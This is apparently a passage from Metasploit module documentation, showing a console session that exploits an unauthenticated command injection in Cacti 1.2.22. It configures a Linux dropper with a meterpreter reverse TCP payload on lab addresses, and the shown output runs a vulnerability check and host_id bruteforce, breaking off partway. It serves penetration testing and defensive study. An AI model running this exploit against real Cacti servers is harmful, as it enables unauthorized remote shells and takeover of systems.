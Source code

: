 ## Scenarios
### Cacti 1.2.22 - Linux Dropper - HOST_ID and LOCAL_DATA_ID not set (bruteforce)
```
msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)



View the full module info with the info, or info -d command.

msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 505 combinations
[*] Enumerating local_data_id values for host_id 1
[*] Performing request 25...
[*] Performing request 50...
[*] Performing request 75...
```